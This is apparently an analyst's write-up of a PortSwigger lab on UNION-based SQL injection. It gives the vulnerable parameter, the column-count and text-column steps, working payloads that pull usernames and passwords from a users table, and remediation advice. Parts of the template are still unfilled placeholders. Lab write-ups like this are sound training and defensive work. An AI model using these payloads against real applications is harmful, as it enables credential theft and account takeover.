

**Date / Analyst:** 2025-09-03 — Christopher Araque  
**Environment:** PortSwigger WSA — UNION-based SQL injection

## TL;DR

- UNION-based SQLi allows extracting data from another table.
- Retrieved credentials (e.g., administrator) by aligning column count and selecting from users.
- Fix: parameterized queries, least-priv DB user, generic errors.

## Scope & Target

- Endpoint/Param: `/filter?category=`
- Quote/comment used: `'` with `--+`
- Column count (N): **2**
- Visible text column(s): <1 or 2> <!-- pick the index that showed 'X' -->
- Final payload used (choose the one you actually used):
  - If both columns rendered text:  
    `' UNION SELECT username,password FROM users--+`
  - If only column 1 rendered text:  
    `' UNION SELECT CONCAT(username,':',password),NULL FROM users--+`
  - If only column 2 rendered text:  
    `' UNION SELECT NULL,CONCAT(username,':',password) FROM users--+`

## Steps (summary)

1. ' ORDER BY N to find column count
2. ' UNION SELECT NULL... to match N columns
3. Find text column(s) with 'X'
4. ' UNION SELECT username,password FROM users--+
5. Capture credentials/evidence

## Evidence

- Screenshot: 
- Request: [union-request.txt](../../evidence/ps-sqli-union/union-request.txt)

## Impact

Credentials disclosure; account takeover; lateral movement.

## Recommended Fix

- Parameterized queries (no string concatenation)
- Least-privileged DB user; segregated roles
- Generic error handling; WAF rules for UNION patterns (temporary)
